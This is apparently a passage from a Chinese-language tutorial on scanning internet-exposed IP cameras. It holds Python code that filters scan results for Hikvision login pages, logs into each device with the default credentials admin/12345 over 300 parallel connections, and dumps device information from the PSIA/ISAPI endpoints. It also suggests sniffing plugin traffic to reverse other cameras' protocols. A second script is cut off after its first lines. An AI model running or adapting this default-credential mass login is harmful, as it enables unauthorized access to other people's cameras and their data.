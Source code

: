 ```python
    server_dict = pickle.load(f)
# Hikvision: 可登录验证
#
# 第一种
print "Hikvision IP Camera found:"
print "Username: admin"
print "Password: 12345"
t_1 = {}
print "-" * 40
for x in server_dict.iteritems():
    if x[1].content.find('doc/page/login.asp') >= 0:
        print x[0]
        t_1[x[0]] = ''


# 抓取第一种设备信息
def device_info(ip):
    s = requests.session()
    s.auth = ('admin', '12345')
    try:
        r = s.get('http://' + ip + '/PSIA/System/deviceInfo')
        if r.ok:
            t_1[ip] = r.content
        else:
            r = s.get('http://' + ip + '/ISAPI/System/deviceInfo')
            if r.ok:
                t_1[ip] = r.content
    except:
        t_1[ip] = ''
        pass

from gevent.pool import Pool
pool = Pool(300)
pool.join(timeout=100)
pool.map(device_info, [ip for ip in t_1.keys()])
print "[*] Dumping type 1 devices info"
with open('./dump/camera/t_1.txt', 'wb') as f:
    pickle.dump(t_1, f)
```

![](/images/spider/net_scan_6.png)

获取的设备信息是xml格式的，我们可以自由的利用python的xml库进行解析，进行数据分析等等。

另外，有很多摄像头要求浏览器安装自己的浏览器activex插件，我们可以用wireshark或类似东西抓下包，找到其相关信息的位置，然后猜测解析协议。比如，另一种摄像头

```python
#! /usr/bin python
# -*- coding: utf-8 -*-

"""
t_2
OCX
"""
# FIXME: 经常失败？
# 目前想法是控制timeout
# 多次请求后成功率变高？

import socket

# 设置默认timeout时间
timeout = 2
socket.setdefaulttimeout(timeout)

```